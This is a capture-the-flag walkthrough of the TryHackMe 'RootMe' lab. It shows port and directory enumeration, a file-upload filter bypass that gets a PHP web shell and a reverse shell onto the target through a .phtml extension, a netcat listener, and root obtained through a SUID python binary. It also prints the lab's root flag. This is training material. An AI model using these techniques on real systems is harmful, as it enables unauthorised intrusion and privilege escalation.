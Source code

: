 # RootMe (THM)
https://tryhackme.com/room/rrootme


## Step 1: Port scan (discovery phase skipped as THM gives you the IP address)
### Command used: nmap<br>
<br>

```sh
nmap -sV -p22,80 rootme.vul
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-06 02:06 CDT
Nmap scan report for rootme.vul (10.10.74.64)
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.63 seconds
```

## Step 2: HTTP enumeration
### Command used: gobuster
<br>

```sh
gobuster dir --url http://rootme.vul --wordlist /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://rootme.vul
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/04/06 02:07:30 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.hta                 (Status: 403) [Size: 275]
/css                  (Status: 301) [Size: 306] [--> http://rootme.vul/css/]
/index.php            (Status: 200) [Size: 616]                             
/js                   (Status: 301) [Size: 305] [--> http://rootme.vul/js/] 
/panel                (Status: 301) [Size: 308] [--> http://rootme.vul/panel/]
/server-status        (Status: 403) [Size: 275]                               
/uploads              (Status: 301) [Size: 310] [--> http://rootme.vul/uploads/]
                                                                                
===============================================================
2022/04/06 02:09:14 Finished
===============================================================
```

## Step 3: Reverse PHP shell
<br>

Nothing interesting at the base URL:<br><br>

![browsing the url](./docs/rootme/rootme_01_web.png)

Navigating to /panel brings us to a file upload page. Of course, the first thing we're going to do is try and upload a PHP shell, but .php files are not allowed:<br><br>

![php shell upload failure](./docs/rootme/rootme_02_panel1.png)

...but .phtml files ARE allowed! Renaming our file to *.phtml allowed us to upload it:<br><br>

![php shell renamed to phtml success](./docs/rootme/rootme_03_panel2.png)

*For this step, p0wny@shell was used* (https://github.com/flozz/p0wny-shell)<br>

(/uploads/shell.phtml)

![p0wny@shell](./docs/rootme/rootme_04_p0wny.png)

Here, we have our first flag - user.txt:<br><br>

![user flag](./docs/rootme/rootme_05_userflag.png)

We're not done yet. There's still a root.txt flag somewhere. We change course and upload a PHP reverse shell (this should have been done in the first place) (https://pentestmonkey.net/tools/web-shells/php-reverse-shell). We configure the shell, start a listener on netcat, and launch the shell:

```sh
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.2.105.239] from (UNKNOWN) [10.10.74.64] 38480
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:07:34 up  1:05,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

We then spawn bash from Python:

```sh
$ python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo
fg
export TERM=xterm
```

## Step 4: Privilege escalation
<br>

Now that we have a stable shell, we look for binaries with the SUID bit enabled:

```sh
find / -type f -user root -perm -4000 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
```

The interesting find here /usr/bin/python. We head on over to GTFOBins and search for possible exploits (https://gtfobins.github.io/gtfobins/python/#suid).

```sh
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
```

Now that we're running as root, we go look for the root.txt flag:

```sh
# cd root
cd root
# ls
ls
root.txt
# cat root.txt
cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```